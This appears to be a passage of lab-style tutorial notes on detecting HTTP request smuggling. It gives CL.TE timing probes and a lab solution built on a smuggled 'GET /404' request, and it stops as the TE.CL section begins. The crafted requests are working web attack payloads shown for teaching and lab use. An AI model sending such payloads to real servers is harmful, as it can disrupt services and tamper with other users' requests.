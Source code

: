 # How to identify HTTP request smuggling vulnerabilities

## Finding CL.TE vulnerabilities using timing techniques

If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Since the front-end server uses the *Content-Length* header, it will forward only part of this request, omitting the *X*. The back-end server uses the *Transfer-Encoding* header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

**Solution**

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

## Finding TE.CL vulnerabilities using timing techniques

If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:
